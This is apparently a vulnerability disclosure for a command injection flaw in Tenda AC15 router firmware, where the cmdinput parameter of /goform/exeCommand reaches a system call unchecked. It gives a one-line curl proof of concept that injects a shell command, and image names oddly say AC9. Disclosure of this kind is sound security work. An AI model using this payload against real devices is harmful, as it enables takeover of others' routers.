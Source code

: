 **Vendor of the products:** Tenda

**Affected Device:** Tenda AC15

**Version:** V1.0BR_V15.03.05.18

**Firmware Download:** https://www.tenda.com.cn/material/show/2710



**Vulnerability Description:** A command injection vulnerability was discovered in Tenda AC15 V1.0BR_V15.03.05.18, triggered by the cmdinput parameter in /goform/exeCommand. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.



# POC:

```bash
curl http://192.168.0.1/goform/exeCommand?cmdinput=;touch /tmp/hack.txt
```

![image-20250904185702175](Tenda_AC9_CJ.assets/image-20250904185702175.png)

# Vulnerability Effect:

It can be seen that the file has been successfully created and the command has been executed successfully. 

![image-20250904191903197](Tenda_AC9_CJ.assets/image-20250904191903197.png)

# Vulnerability Cause:

In the formexeCommand function, the program first obtains the value of  the "cmdinput" parameter, then directly concatenates it into the  doSystemCmd function for execution without any security checks. This  allows attackers to execute arbitrary commands and thus gain full  control of the device.

![image-20250904191257030](Tenda_AC9_CJ.assets/image-20250904191257030.png)

 